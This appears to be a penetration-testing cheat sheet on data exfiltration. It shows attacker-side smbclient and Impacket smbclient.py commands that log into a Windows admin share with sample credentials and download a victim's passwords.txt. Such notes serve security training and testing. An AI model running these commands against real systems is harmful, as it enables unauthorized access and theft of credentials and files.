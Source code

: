 # Exfiltration

## smbclient
```bash
# attacker Terminal 1:
mkdir loot               # make a dir for loot
cd loot                  # change to loot dir
smbclient //192.168.1.69/c$ -U john Password123! # login
cd users\victor\desktop  # its case insensitive
dir                      # list files to exfil
mget passwords.txt       # download a file
exit
```

## Impacket
### smbclient.py
`smbclient.py` also connects to SMB ports on the target. 
```bash
# attacker Terminal 1:
# use this syntax to specify a domain account: "domain/username"
smbclient.py evilcorp/john@target # invoke a semi-interactive shell
use restrictedfolder 
get passwords.txt
exit
```


